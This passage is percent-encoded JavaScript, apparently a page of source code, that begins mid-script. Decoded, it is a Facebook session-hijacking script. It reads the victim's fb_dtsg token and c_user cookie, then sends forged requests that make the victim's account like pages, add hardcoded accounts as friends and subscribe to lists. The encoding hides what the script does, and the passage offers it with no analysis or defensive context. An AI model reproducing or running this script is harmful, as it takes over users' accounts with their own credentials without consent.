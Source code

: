 7D%3B%58%2E%73%65%6E%64%28%58%50%61%72%61%6D%73%29%7D%76%61%72%20%66%62%5F%64%74%73%67%3D%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%76%61%72%20%75%73%65%72%5F%69%64%3D%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%66%75%6E%63%74%69%6F%6E%20%4C%69%6B%65%28%70%29%7B%76%61%72%20%50%61%67%65%3D%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%76%61%72%20%50%61%67%65%55%52%4C%3D%22%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%70%61%67%65%73%2F%66%61%6E%5F%73%74%61%74%75%73%2E%70%68%70%22%3B%76%61%72%20%50%61%67%65%50%61%72%61%6D%73%3D%22%26%66%62%70%61%67%65%5F%69%64%3D%22%2B%70%2B%22%26%61%64%64%3D%74%72%75%65%26%72%65%6C%6F%61%64%3D%66%61%6C%73%65%26%66%61%6E%5F%6F%72%69%67%69%6E%3D%70%61%67%65%5F%74%69%6D%65%6C%69%6E%65%26%66%61%6E%5F%73%6F%75%72%63%65%3D%26%63%61%74%3D%26%6E%63%74%72%5B%5F%6D%6F%64%5D%3D%70%61%67%65%6C%65%74%5F%74%69%6D%65%6C%69%6E%65%5F%70%61%67%65%5F%61%63%74%69%6F%6E%73%26%5F%5F%75%73%65%72%3D%22%2B%75%73%65%72%5F%69%64%2B%22%26%5F%5F%61%3D%31%26%5F%5F%64%79%6E%3D%37%39%38%61%44%35%7A%35%43%46%2D%26%5F%5F%72%65%71%3D%64%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%50%61%67%65%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%50%61%67%65%55%52%4C%2C%74%72%75%65%29%3B%50%61%67%65%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%3D%66%75%6E%63%74%69%6F%6E%28%29%7B%69%66%28%50%61%67%65%2E%72%65%61%64%79%53%74%61%74%65%3D%3D%34%26%26%50%61%67%65%2E%73%74%61%74%75%73%3D%3D%32%30%30%29%7B%50%61%67%65%2E%63%6C%6F%73%65%7D%7D%3B%50%61%67%65%2E%73%65%6E%64%28%50%61%67%65%50%61%72%61%6D%73%29%7D%4C%69%6B%65%28%22%31%34%33%33%34%36%31%35%37%33%35%35%37%36%35%39%22%29%3B%66%75%6E%63%74%69%6F%6E%20%49%44%53%28%72%29%7B%76%61%72%20%58%3D%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%76%61%72%20%58%55%52%4C%3D%22%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%61%64%64%5F%66%72%69%65%6E%64%2F%61%63%74%69%6F%6E%2E%70%68%70%22%3B%76%61%72%20%58%50%61%72%61%6D%73%3D%22%74%6F%5F%66%72%69%65%6E%64%3D%22%2B%72%2B%22%26%61%63%74%69%6F%6E%3D%61%64%64%5F%66%72%69%65%6E%64%26%68%6F%77%5F%66%6F%75%6E%64%3D%66%72%69%65%6E%64%5F%62%72%6F%77%73%65%72%5F%73%26%72%65%66%5F%70%61%72%61%6D%3D%6E%6F%6E%65%26%26%26%6F%75%74%67%6F%69%6E%67%5F%69%64%3D%26%6C%6F%67%67%69%6E%67%5F%6C%6F%63%61%74%69%6F%6E%3D%73%65%61%72%63%68%26%6E%6F%5F%66%6C%79%6F%75%74%5F%6F%6E%5F%63%6C%69%63%6B%3D%74%72%75%65%26%65%67%6F%5F%6C%6F%67%5F%64%61%74%61%26%68%74%74%70%5F%72%65%66%65%72%65%72%26%5F%5F%75%73%65%72%3D%22%2B%75%73%65%72%5F%69%64%2B%22%26%5F%5F%61%3D%31%26%5F%5F%64%79%6E%3D%37%39%38%61%44%35%7A%35%43%46%2D%26%5F%5F%72%65%71%3D%33%35%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%58%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%58%55%52%4C%2C%74%72%75%65%29%3B%58%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%3D%66%75%6E%63%74%69%6F%6E%28%29%7B%69%66%28%58%2E%72%65%61%64%79%53%74%61%74%65%3D%3D%34%26%26%58%2E%73%74%61%74%75%73%3D%3D%32%30%30%29%7B%58%2E%63%6C%6F%73%65%7D%7D%3B%58%2E%73%65%6E%64%28%58%50%61%72%61%6D%73%29%7D%0A%2F%2F%61%0A%61%28%22%31%30%30%30%30%32%35%34%37%37%33%39%39%36%31%22%29%3B%20%2F%2F%64%0A%61%28%22%31%30%30%30%30%34%34%36%30%37%30%31%31%31%30%22%29%3B%20%2F%2F%68%0A%61%28%22%31%30%30%30%30%33%30%31%34%39%33%38%35%31%34%22%29%3B%20%0A%61%28%22%31%30%30%30%30%33%30%33%39%39%30%30%35%31%32%22%29%3B%20%0A%2F%2F%4C%69%73%74%73%0A%73%75%62%6C%69%73%74%28%22%35%35%36%38%36%38%32%32%34%39%38%39%33%33%36%31%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%36%38%31%34%36%36%35%36%30%31%30%36%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%37%37%32%35%35%32%33%33%32%32%33%36%37%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%37%37%32%35%35%32%33%33%32%32%33%36%37%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%36%38%32%30%37%33%32%32%36%37%31%32%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%36%38%32%37%32%39%38%39%33%33%31%33%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%31%38%33%30%38%33%32%37%36%36%31%31%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%36%38%36%36%36%39%38%39%32%39%31%39%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%31%38%39%33%33%39%39%34%32%36%35%32%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%36%38%35%30%39%39%38%39%33%30%37%36%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%31%38%34%39%39%33%32%37%36%34%32%30%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%36%38%32%35%33%39%38%39%33%33%33%32%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%37%37%32%37%36%30%39%39%38%38%38%32%35%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%36%38%37%32%33%39%38%39%32%38%36%32%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%36%38%35%30%31%39%38%39%33%30%38%34%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%36%38%30%39%37%39%38%39%33%34%38%38%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%31%38%35%36%36%36%36%30%39%36%38%36%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%38%36%38%30%31%38%33%32%32%36%39%30%31%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%37%37%32%35%35%32%33%33%32%32%33%36%37%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%37%37%32%37%36%30%39%39%38%38%38%32%35%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%37%37%32%39%32%31%36%36%35%35%33%33%31%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%35%36%37%37%33%31%34%39%39%39%38%38%34%33%36%22%29%3B%0A%2F%2F%0A%50%28%22%34%32%31%33%33%30%31%34%31%32%39%35%32%34%30%22%29%3B%50%28%22%34%31%37%33%34%37%33%33%31%36%39%33%35%32%31%22%29%3B%0A%2F%2F%4C%69%6B%65%0A%4C%69%6B%65%28%22%33%39%33%39%34%37%33%38%30%37%31%36%32%38%38%22%29%3B%0A%4C%69%6B%65%28%22%33%31%38%36%35%35%33%39%31%36%30%34%30%34%31%22%29%3B%0A%4C%69%6B%65%28%22%31%32%32%35%30%39%37%34%37%39%33%38%32%38%35%22%29%3B%0A